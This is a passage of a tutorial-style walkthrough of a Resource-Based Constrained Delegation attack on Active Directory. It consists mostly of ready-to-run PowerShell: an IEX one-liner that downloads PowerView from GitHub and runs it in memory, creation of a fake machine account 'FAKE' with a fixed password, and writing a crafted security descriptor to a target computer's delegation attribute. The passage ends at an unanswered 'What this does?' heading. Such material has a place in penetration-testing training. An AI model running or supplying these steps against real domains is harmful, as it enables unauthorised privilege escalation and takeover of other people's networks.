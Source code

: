 ::github{repo="PowerShellMafia/PowerSploit"}

```powershell
IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1')
Import-Module PowerView.ps1
```

#### 3.2 Creating the Machine Account

Then create a fake machine account called **FAKE** with the following password: `Password123!` , make sure to not forget this password as you will need it in further exploitation

```powershell
New-MachineAccount -MachineAccount 'FAKE' -Password $(ConvertTo-SecureString 'Password123!' -AsPlainText -Force) -Verbose
```

To check if the new machine account was successfully created, let's try to check it using **PowerView**

```powershell
Get-DomainComputer FAKE
```

#### 3.3 Configuring RBCD

> Note: this part is done using powerview

After that, we need to get the *SID* of the fake computer we just created

```powershell
$ComputerSid = Get-DomainComputer 'FAKE' -Properties objectsid | Select -Expand objectsid
```

Then we create a *security descriptor*

```powershell
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$ComputerSid)"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)
```

And finally let's apply *Resource-Based Constrained Delegation* to the target computer, don't forget to change the `$TARGET` to your target computer

```powershell
Get-DomainComputer '$TARGET' | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}
```

Now let's see if there's success...

```powershell
Get-DomainComputer $targetComputer -Properties 'msds-allowedtoactonbehalfofotheridentity'
```

> It needs to show: msds-*allowedtoactonbehalfofotheridentity*

**What this does?**
